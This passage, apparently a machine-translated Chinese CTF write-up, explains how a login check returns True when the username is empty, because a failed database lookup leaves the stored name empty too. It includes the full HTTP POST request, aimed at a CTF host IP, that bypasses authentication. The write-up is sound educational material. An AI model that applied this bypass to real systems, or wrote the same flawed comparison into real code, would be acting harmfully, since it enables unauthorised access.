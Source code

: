 **它查询数据库，但不会找到任何东西。因此，在下面的情况下，执行 else 部分。那么参数“名称”被设置为→”**

```
name = user[0][1] if user and user[0] and user[0][1] else ‘’(line no: 105)
```

**最后，参数“名称”和“用户名”变得相同→“
。因此，**

```
return name == username (Condition is: return True)
```

**![](img/3e5350157a22a8cd1e423892f06eb28f.png)**

**繁荣..！！发现漏洞。
现在我们可以有意义地滥用这个。**

**![](img/49cd473527c4a0330b28202bbf66c2db.png)**

## **剥削**

```
POST /login HTTP/1.1
Host: 47.242.21.212:8081
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:90.0) Gecko/20100101 Firefox/90.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Origin: [http://47.242.21.212:8081](http://47.242.21.212:8081)
Connection: close
Referer: [http://47.242.21.212:8081/login](http://47.242.21.212:8081/login)
Upgrade-Insecure-Requests: 1
Sec-GPC: 1username=&password=ctf
```

**传递“用户名”中的空值和“密码”参数
中的任意值(正如我们上面讨论的)，我们可以绕过登录页面。服务器返回 SessionId。我们终于登录了。**
